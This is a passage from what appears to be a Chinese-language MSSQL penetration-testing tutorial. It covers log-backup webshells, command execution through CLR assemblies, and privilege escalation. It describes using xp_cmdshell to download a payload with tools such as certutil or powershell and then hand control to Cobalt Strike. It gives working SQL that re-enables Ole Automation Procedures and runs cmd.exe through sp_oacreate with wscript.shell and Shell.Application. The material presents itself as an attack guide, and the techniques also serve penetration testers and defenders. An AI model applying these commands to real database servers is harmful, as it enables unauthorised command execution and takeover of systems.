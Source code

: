 log备份的好处就是备份出来的webshell的文件大小非常的小



#### 5.使用CLR程序集来执行命令

[MSSQL使用CLR程序集来执行命令 - Y4er的博客](https://y4er.com/posts/mssql-execute-command-with-clr-assemblies/)

# 0x0b 提权

#### 1. xp_cmdshell

在2005中xp_cmdshell的权限是system，2008中是network。

当遇到无法写shell，或者是站库分离的时候，直接通过xp_cmdshell来下载我们的payload来上线会更加方便。下载文件通常有下面几种姿势

1. certutil
2. vbs
3. bitsadmin
4. powershell
5. ftp

这个我会放在下一篇文章中细讲。

通过下载文件之后用xp_cmdshell来执行我们的payload，通过Cobalt Strike来进行下一步操作，比如怼exp或许会更加方便。

#### 2. sp_oacreate

当xp_cmdshell 被删除可以使用这个来提权试试,恢复sp_oacreate

```mssql
EXEC sp_configure 'show advanced options', 1;  
RECONFIGURE WITH OVERRIDE;  
EXEC sp_configure 'Ole Automation Procedures', 1;  
RECONFIGURE WITH OVERRIDE;  
EXEC sp_configure 'show advanced options', 0;
```

sp_oacreate是一个非常危险的存储过程可以删除、复制、移动文件 还能配合sp_oamethod 来写文件执行cmd

在以前的系统有这几种用法

1. 调用cmd 来执行命令

   ```mssql
   wscript.shell执行命令
   
   declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c xxx'
   
   
   
   Shell.Application执行命令
   declare @o int
   exec sp_oacreate 'Shell.Application', @o out
   exec sp_oamethod @o, 'ShellExecute',null, 'cmd.exe','cmd /c net user >c:\test.txt','c:\windows\system32','','1';
   ```
